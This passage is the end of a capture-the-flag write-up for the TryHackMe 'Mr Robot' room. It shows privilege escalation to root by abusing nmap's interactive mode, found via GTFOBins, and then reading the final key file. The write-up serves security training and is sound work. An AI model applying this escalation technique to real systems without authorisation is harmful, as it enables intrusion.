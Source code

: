 Found `nmap` binary in GTFOBins:
![](/assets/TryHackMeRoomsImage/MrRobot/image3.png)

Let's use it:
```js
robot@ip-10-10-186-36:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
```

Find key 3:
```js
cat key-3-of-3.txt
04787ddef27c3dee1ee1.........
```

Finished. Happy Hacking!



<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me:
- [LinkedIn](https://www.linkedin.com/in/t4t4r1s/)
- [X](https://x.com/T4T4R1S)

---

